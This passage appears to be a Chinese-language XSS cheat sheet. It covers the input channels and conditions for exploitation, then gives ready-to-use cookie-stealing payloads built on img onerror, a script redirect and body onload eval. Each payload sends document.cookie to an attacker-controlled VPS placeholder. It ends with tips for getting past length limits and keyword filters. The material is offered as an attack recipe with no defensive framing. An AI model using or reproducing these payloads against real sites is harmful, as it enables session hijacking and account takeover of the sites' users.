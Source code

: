 ```php
# 数据提交方式
1、GET
2、POST
3、Cookie
4、Referer
```



## 三、利用条件

### 1、数据有回显

### 2、数据有交互



## 四、利用方法

### 1、盗取Cookie

```php
# img
<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://VPS地址:80/?='+document.cookie); >
```

```php
# script
<script>window.location.href='http://VPS地址/?cookie='+document.cookie</script>
```

```php
# body
<body onload=eval(“document.body.appendChild(document.createElement('img')).setAttribute('src','http://VPS地址/?='+document.cookie);”)></body>
```



## 五、绕过防护

### 1、限制长度

```php
F12审查元素修改maxlength值
```

### 2、关键字

```php
# < >
1、编码
2、注释后面内容//
```
